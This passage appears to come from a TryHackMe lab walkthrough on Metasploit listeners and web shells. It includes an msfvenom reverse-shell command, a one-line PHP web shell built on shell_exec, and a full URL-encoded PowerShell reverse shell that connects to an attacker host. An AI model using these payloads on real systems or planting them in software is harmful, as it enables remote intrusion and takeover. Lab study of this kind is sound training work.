 --> `msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`



Task 10  Metasploit multi/handler
----------------------------------

1. What command can be used to start a listener in the background?

--> exploit -j

2. If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

--> sessions 10



Task 11  WebShells
------------------

Linux portion is well explained here: [Upload Vulnerabilities Room](https://github.com/reveng007/TryHackMe/tree/main/_SUBSCRIPTION_/paths/Complete%20Beginner/04.Web%20Hacking%20Fundamentals/06.Upload%20Vulnerabilities)


As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Essentially, what this means is that any commands we enter in the URL after `?cmd=` will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.


When the target is Windows:

It is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server.

With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:
```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

This is the same shell we encountered in Task 8, however, it has been URL encoded to be used safely in a GET parameter. Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.
